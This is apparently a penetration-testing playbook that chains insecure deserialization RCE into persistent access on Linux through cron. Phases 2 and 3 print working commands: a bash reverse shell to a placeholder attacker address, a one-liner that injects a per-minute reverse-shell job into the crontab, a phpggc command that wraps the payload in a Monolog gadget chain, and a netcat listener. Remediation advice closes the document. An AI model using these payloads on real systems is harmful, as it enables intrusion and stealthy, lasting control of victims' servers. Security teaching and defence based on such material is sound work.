

# Insecure Deserialization RCE to Cron-Based Persistence

## Executive Summary
Insecure Deserialization is a critical vulnerability that occurs when untrusted user data is used to instantiate objects or data structures without proper sanitization. When exploited, it frequently leads to arbitrary Remote Code Execution (RCE). However, an initial RCE is often volatile—if the application restarts, the payload crashes, or the session ends, access is lost. 

This playbook outlines a comprehensive attack chain transitioning from an initial insecure deserialization foothold to establishing robust, long-term persistence on a Linux host via manipulated `cron` jobs. This chain represents a full lifecycle attack from external web vulnerability to internal system entrenchment.

---

## Core Vulnerability Mechanics

### The Nature of Serialization
Serialization is the process of converting complex data structures or object states into a format that can be stored or transmitted (e.g., converting a Java object to a byte stream, or a PHP object to a string). Deserialization is the reverse process. 
Vulnerabilities arise when an application deserializes a payload supplied by an attacker. During deserialization, many languages invoke "magic methods" (e.g., `__wakeup` or `__destruct` in PHP, `readObject` in Java). If an attacker crafts a malicious serialized object containing specific classes ("gadgets") available in the application's runtime environment, they can dictate the execution flow of these magic methods to execute arbitrary system commands.

### The Persistence Strategy
Once RCE is achieved, maintaining access is paramount. Writing a reverse shell directly to memory is ephemeral. Dropping a webshell to the filesystem is highly visible to File Integrity Monitoring (FIM). Manipulating the Linux `cron` daemon offers a stealthier persistence mechanism. By echoing a malicious cron job into the user's crontab or `/etc/cron.d/`, the attacker ensures the operating system automatically and repeatedly calls back to their Command and Control (C2) infrastructure at specified intervals.

---

## Attack Flow Architecture



---

## Step-by-Step Exploitation Playbook

### Phase 1: Identifying the Deserialization Flaw
1. **Analyze Traffic**: Look for tell-tale signs of serialized data in HTTP requests (Cookies, POST bodies, hidden fields).
   - **Java**: Base64 encoded strings starting with `rO0AB` or hex starting with `ac ed 00 05`.
   - **PHP**: Formatted strings like `O:8:"stdClass":0:{}`.
   - **Python/Pickle**: Base64 strings, often containing `cposix` or `system`.
   - **.NET**: ViewState parameters or JSON containing `$type` parameters.
2. **Determine the Context**: Assess whether the data is processed server-side. Modify a benign value within the serialized string (updating the length counter if necessary) to observe if the backend reflects the change or errors out.

### Phase 2: Crafting the RCE Payload
To achieve persistence via cron, the payload must be a non-interactive bash command. 
1. **The Bash Reverse Shell**: 
   `bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1`
2. **The Cron Syntax**: We want this to run every minute.
   `* * * * * bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'`
3. **The Deployment Command**: We need a single command to inject this into the crontab without requiring interactive prompts. 
   ```bash
   (crontab -l 2>/dev/null; echo "* * * * * bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'") | crontab -
   ```
4. **Generate the Serialized Exploit**: Use a tool like `ysoserial` (for Java) or `phpggc` (for PHP) to wrap the bash command in a gadget chain.
   ```bash
   # Example using phpggc (Monolog/RCE1)
   phpggc Monolog/RCE1 system "(crontab -l 2>/dev/null; echo '* * * * * bash -c \"bash -i >& /dev/tcp/10.0.0.5/4444 0>&1\"') | crontab -" | base64 -w0
   ```

### Phase 3: Exploitation and Callback
1. **Start the Listener**: On the attacker machine, start a netcat listener.
   ```bash
   nc -lvnp 4444
   ```
2. **Send the Payload**: Replace the legitimate serialized string in your Burp Suite request with the maliciously crafted Base64 payload. Send the request.
3. **Wait for Persistence**: The web request will likely return a 500 Internal Server Error as the application crashes during the corrupted deserialization process. However, the system command has already executed. Within 60 seconds, the cron daemon will trigger the reverse shell, and a connection will establish on the netcat listener.
4. **Verify**: Run `id` to confirm privileges (usually `www-data` or `tomcat`) and `crontab -l` to verify the persistence mechanism is in place.

---

## Deep Dive into Gadget Chains and Cron Execution

### The Role of Gadget Chains
An attacker cannot just insert `system("whoami")` into a serialized object. They must use classes (gadgets) that *already exist* in the application's source code or its imported libraries (e.g., Apache Commons Collections, Spring, Monolog). A gadget chain connects a source (a magic method invoked automatically during deserialization) to a sink (a method that executes code, like `Runtime.exec()`). The payload generation tools map these complex inheritance trees to package the attacker's string command into a valid object graph.

### Why Cron?
When executing commands blindly via deserialization, the environment is highly restrictive.
- Shells spawned directly by the web server process are fragile; if the HTTP thread times out or is killed, the shell dies.
- Writing to `.bashrc` requires the compromised user to log in interactively, which service accounts (`www-data`) rarely do.
- Modifying Systemd services generally requires root privileges.
User-level crontabs (`/var/spool/cron/crontabs/<user>`), however, can be modified by the service account itself without root privileges, providing reliable, asynchronous, and robust execution decoupled from the web application's lifecycle.

---

## Remediation and Defensive Countermeasures

### 1. Reject Untrusted Serialization (The Only True Fix)
Do not deserialize data supplied by the user. If complex data needs to be passed between the client and server, use safe, text-based data formats like JSON or XML, and parse them securely (avoiding features like XML External Entities).

### 2. Implement Cryptographic Signatures
If serialization is absolutely required (e.g., legacy systems using ViewState), ensure the serialized object is cryptographically signed (HMAC) by the server before sending it to the client. Upon receiving the object, verify the signature before attempting deserialization. If the signature is invalid, drop the request.

### 3. Use Safe Deserialization Implementations
- **Java**: Implement strict class look-ahead deserialization. Override the `resolveClass` method in `ObjectInputStream` to only allow specific, expected classes to be deserialized, blocking known dangerous gadget classes.
- **Python**: Never use `pickle` for untrusted data. Use `json` instead.

### 4. Monitor and Restrict Cron
- Utilize EDR/FIM to monitor changes to `/var/spool/cron/crontabs/` and `/etc/cron.*`.
- Use `cron.allow` and `cron.deny` to strictly limit which user accounts are permitted to create cron jobs. Service accounts like `www-data` or `apache` should inherently be denied access to the cron daemon.

---

## Chaining Opportunities
- **[[06 - Server-Side Request Forgery to Internal Network Exploitation]]**: SSRF can be used to hit internal-only administrative interfaces that are vulnerable to deserialization, bypassing external firewalls.
- **[[24 - LDAP Injection Credential Dump Lateral Movement]]**: Once persistence is established via cron, the attacker can begin enumerating internal services like LDAP to escalate privileges and move laterally.
- **[[31 - API Broken Object Level Authorization]]**: BOLA can be used to read or modify serialized state objects belonging to higher-privileged users before triggering the deserialization vulnerability.

## Related Notes
- [[09 - Understanding Magic Methods in PHP]]
- [[13 - Java Ysoserial Deep Dive]]
- [[18 - Linux Post-Exploitation Persistence]]
- [[38 - Evasion Techniques against File Integrity Monitoring]]
